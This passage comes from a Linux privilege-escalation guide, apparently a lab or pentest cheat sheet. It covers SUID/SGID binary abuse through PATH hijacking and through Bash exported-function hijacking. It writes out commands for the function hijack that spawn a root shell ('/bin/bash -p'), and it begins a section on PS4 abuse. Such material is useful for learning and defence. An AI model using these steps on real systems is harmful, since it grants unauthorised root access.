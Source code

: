 This tricks the SUID binary into running your fake `service` script, spawning a shell.

Notes

* Only works if the binary doesn't sanitize `PATH`.
* The fake binary must have the same name as the called command.
* `.` must appear **before** system directories in `PATH`.

---

## 13. SUID / SGID - Abusing Shell Features (#1 Bash Function Hijack)

Older Bash versions (< 4.2-048) allow function names to mimic file paths. If a SUID/SGID binary runs a known path (e.g., `/usr/sbin/service`), you can override it with a function.

### Example

Check the binary with:

```bash
strings /usr/local/bin/suid-bash-func
```

Suppose it includes:

```bash
/usr/sbin/service apache2 start
```

### Exploitation

Define a function mimicking the full path:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the vulnerable binary:

```bash
/usr/local/bin/suid-bash-func
```

This triggers the exported function instead of the real `/usr/sbin/service`, granting a root shell.

Notes

* Only works in **Bash < 4.2-048**.
* Function path must **exactly match** the command used in the binary.

---

## 14. SUID / SGID - Abusing Shell Features (#2)

In **Bash versions < 4.4**, `PS4` can be abused during debugging to execute arbitrary commands. If a SUID binary runs a Bash script with `-x` (debug mode), this can be exploited.
